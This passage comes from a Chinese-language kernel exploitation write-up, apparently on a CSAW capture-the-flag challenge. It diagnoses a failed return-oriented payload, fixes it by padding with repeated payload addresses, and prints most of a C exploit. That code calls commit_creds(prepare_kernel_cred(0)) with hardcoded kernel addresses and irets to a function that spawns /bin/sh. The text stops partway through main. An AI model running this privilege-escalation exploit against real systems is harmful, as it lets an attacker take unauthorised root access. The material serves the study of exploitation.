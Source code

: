 这个时候查看栈顶：

[![](https://p0.ssl.qhimg.com/t01f8cf6f69f141dbb7.png)](https://p0.ssl.qhimg.com/t01f8cf6f69f141dbb7.png)

我们的payload是在栈中的，看看执行完了add指令之后的情况：

[![](https://p2.ssl.qhimg.com/t013dbd1de02eef0534.png)](https://p2.ssl.qhimg.com/t013dbd1de02eef0534.png)

随着箭头指向，我们可以看到，在执行了三条pop指令后，我们的payload地址会被弹到esi中去，那么后面ret返回的时候，就直接返回到0xc114396c这个地址去了，所以就没有ret到我们的payload去。

**3. 解决方案**

原因已经找到了，下面说下解决方案，其实也很简单，他有pop，你在后面添加junk字节就好了~

大概把payload结构调整成：

```
junk + CANARY + ebp + pl_addr + pl_addr + pl_addr
```

这样的话，总会ret到我们用来提权的代码中去的~

**2. 最终的exploit如下：**



```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;string.h&gt;
#include &lt;stdint.h&gt;
struct trap_frame`{`
    void *eip;
    uint32_t cs;
    uint32_t eflags;
    void *esp;
    uint32_t ss;
`}`__attribute__((packed));
void launch_shell(void) 
`{` 
    execl("/bin/sh", "sh", NULL);
`}`
struct trap_frame tf;
void prepare_tf(void) 
`{` 
    asm("pushl %cs; popl tf+4;"
        "pushfl; popl tf+8;"
        "pushl %esp; popl tf+12;"
        "pushl %ss; popl tf+16;");
    tf.eip = &amp;launch_shell;
    tf.esp -= 1024;
`}`
#define KERNCALL __attribute__((regparm(3)))
void* (*prepare_kernel_cred)(void*) KERNCALL = (void*) 0xc1067fc0;
void (*commit_creds)(void*) KERNCALL = (void*) 0xc1067e20;
void payload(void)`{`
    //payload here    
    commit_creds(prepare_kernel_cred(0));
    asm("mov $tf,%esp;"
       "iret;");
`}`
int main(int argc,char *argv[])`{`
    int fd = open("/proc/csaw",O_RDWR);
    if(!fd)`{`
```